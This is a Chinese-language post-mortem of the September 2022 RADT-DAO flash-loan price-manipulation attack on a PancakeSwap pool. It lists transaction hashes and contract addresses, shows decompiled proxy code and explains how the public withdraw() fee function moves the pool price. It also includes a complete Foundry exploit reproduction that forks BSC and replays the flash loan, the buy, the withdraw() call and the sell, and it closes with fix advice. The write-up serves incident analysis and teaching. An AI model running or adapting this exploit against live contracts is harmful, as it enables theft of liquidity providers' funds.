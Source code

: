 ```yaml
---
layout: post
category: attack_events
---
```

# RADT-DAO@flashloan@priceManipulation

## 事件背景

池子[PancakeSwap V2: BSC-USD-RADT-DAO]被价格操纵，并且发现可以价格操纵的人被黑吃黑抢跑。

- 时间：2022.09.23
- 损失金额：$94,238.5

## 交易

- 4笔抢跑
  - 抢跑成功：[0xd692f71de2768017390395db815d34033013136c378177c05d0d46ef3b6f0897](https://bscscan.com/tx/0xd692f71de2768017390395db815d34033013136c378177c05d0d46ef3b6f0897)
  - 抢跑失败：[0xb8ddbd4b585892c435ae10335a465c78e180314b8a1f777ffa014d8f9369d710]()
  - 抢跑失败：[0xacc1163a673b9ec6f06fa16b8ba1df430d430d8aa8729fe25660cb8f6167e07a](https://bscscan.com/tx/0xacc1163a673b9ec6f06fa16b8ba1df430d430d8aa8729fe25660cb8f6167e07a)
  - 发现可以进行价格操纵的、被抢跑的交易：[0xe4f697883c2963eda98245bf25ad4613b5f0bf623253ff886066a6dd37dc36f6](https://bscscan.com/tx/0xe4f697883c2963eda98245bf25ad4613b5f0bf623253ff886066a6dd37dc36f6)
- [BSC-USD, RADT-DAO]池子：[0xaF8fb60f310DCd8E488e4fa10C48907B7abf115e](https://bscscan.com/address/0xaf8fb60f310dcd8e488e4fa10c48907b7abf115e)
- RADT-DAO代币地址：[0xDC8Cb92AA6FC7277E3EC32e3f00ad7b8437AE883](https://bscscan.com/address/0xdc8cb92aa6fc7277e3ec32e3f00ad7b8437ae883)
- RADT-DAO代币的`_wrap`（未开源，存储合约）：[0x01112eA0679110cbc0ddeA567b51ec36825aeF9b](https://bscscan.com/address/0x01112ea0679110cbc0ddea567b51ec36825aef9b)
- RADT-DAO代币的`_wrap`的逻辑合约（未开源，逻辑合约）：[0x9122191d7B2CCF11a2600de4eafD6b8cD3D03a62](https://bscscan.com/address/0x9122191d7b2ccf11a2600de4eafd6b8cd3d03a62)

## 资金流向

![image-20230903211625169](09.RADT-DAO@flashloan@priceManipulation/image-20230903211625169.png)

## 攻击过程

![image-20230903212526363](09.RADT-DAO@flashloan@priceManipulation/image-20230903212526363.png)

## 攻击详细分析

1.黑客用闪电贷得到243673个BSC-USD

2.操纵价格的核心：`withdraw()`使得池子价格变动。我们来详细分析一下这个RADT-DAO代币的调用逻辑：

2.1反编译`_wrap`得到：调用RADT-DAO合约的函数，都会delegatecall到另外一个合约的代码，可以知道`_wrap`合约是一个存储合约，实际逻辑写在其他合约。

```solidity
function __function_selector__() public nonPayable { 
    CALLDATACOPY(0, 0, msg.data.length);
    v0 = ___function_selector__.delegatecall(MEM[0 len msg.data.length], MEM[0 len 0]).gas(msg.gas);
    require(v0, 0, RETURNDATASIZE()); // checks call status, propagates error data on error
    return MEM[0 len (RETURNDATASIZE())];
}
```

2.2随便找一个`_wrap`的交易，就可以找到它的[逻辑合约](https://bscscan.com/address/0x9122191d7b2ccf11a2600de4eafd6b8cd3d03a62)，也没有开源，对它进行反编译。查看它的`withdraw()`，发现又臭又长，可以总结出一些特点：

- 是用`call()`来发送资产的
- 每次withdraw之前，都会到池子中获取价格
- 根据规则和条件，给一些地址发送RADT-DAO代币，似乎这些地址是手续费的地址，是一系列地址，或多或少

![image-20230903220211348](09.RADT-DAO@flashloan@priceManipulation/image-20230903220211348.png)

2.3猜测：这个`withdraw()`像是专门给项目方调用的，提取手续费，设置为public也不怕，获得手续费的规则写好在`withraw()`里面了，应该是根据情况给项目方不同员工的地址转钱。逻辑是池子的交易量越大，或者价格越高等啥因素，使得项目方计算出来的手续费就越多。黑客手动帮他们提取手续费，池子中的RADT-DAO就更少了，那么黑客手中的RADT-DAO也就越值钱，重新在池子中换回BSC-USD就更多，从而获利。

3.价格操纵后，换回BSC-USD，得到337977个，获利：337977 - 243673 = 94,304个。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {

    // 代币
    IERC20 BSC_USD = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 RADT = IERC20(0xDC8Cb92AA6FC7277E3EC32e3f00ad7b8437AE883);
    // 池子：手动更新池子价格
    IUni_Pair_V2 pair = IUni_Pair_V2(0xaF8fb60f310DCd8E488e4fa10C48907B7abf115e);
    // 存储合约，用来调用withdraw
    IStorageContract storageContract = IStorageContract(0x01112eA0679110cbc0ddeA567b51ec36825aeF9b);
    // 闪电贷
    address getFlashloan = 0xDa26Dd3c1B917Fbf733226e9e71189ABb4919E3f;
    // router：用于swap
    IUni_Router_V2 Router = IUni_Router_V2(0x10ED43C718714eb63d5aA57B78B54704E256024E);

    uint256 public constant FLASHLOAN_AMOUNT = 243673213068049612594655;

    function setUp() public {
        vm.createSelectFork("bsc", 21_572_418);
    }

    function testExploit() public {
        emit log_named_decimal_uint("[before] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 为两次swap做准备
        BSC_USD.approve(address(Router), ~uint256(0));
        RADT.approve(address(Router), ~uint256(0));

        IGetFlashloan(getFlashloan).flashLoan(0, FLASHLOAN_AMOUNT, address(this), new bytes(1));

        emit log_named_decimal_uint("[after pay back flashloan] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);
    }

    // 闪电贷回调
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        emit log_named_decimal_uint("[get flashloan] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 价格操纵前买入RADT
        buyRADT();

        // 不写会报[FAIL. Reason: the price of coin is low],这是在withdraw取款的时候报错
        // 给池子发送1个BSC-USD，抬高一点RADT代币的价格，使得withdraw满足条件可以调用
        BSC_USD.transfer(address(pair), 1);
        
        uint256 amount = 89806000000000000000000;

        // 操纵价格
        storageContract.withdraw(address(0x68Dbf1c787e3f4C85bF3a0fd1D18418eFb1fb0BE), address(pair), amount);
        pair.sync();

        // 价格操纵后卖出RADT
        sellRADT();

        emit log_named_decimal_uint("[after attack] Attacker BSC_USD balance", BSC_USD.balanceOf(address(this)), 18);

        // 闪电贷还款
        BSC_USD.transfer(address(getFlashloan), FLASHLOAN_AMOUNT);
    }

    function buyRADT() public {
        address[] memory path = new address[](2);
        path[0] = address(BSC_USD);
        path[1] = address(RADT);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            1000 * 1e18, 0, path, address(this), ~uint256(0)
        );
    }

    function sellRADT() public {
        address[] memory path = new address[](2);
        path[0] = address(RADT);
        path[1] = address(BSC_USD);
        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            RADT.balanceOf(address(this)), 0, path, address(this),~uint256(0)
        );
    }
}
```

## 建议

- 手续费的领取不应该使得池子的价格变动
- 应该让项目方自己来领取，不应该任何人都可以调用`withdraw()`帮项目方领取手续费













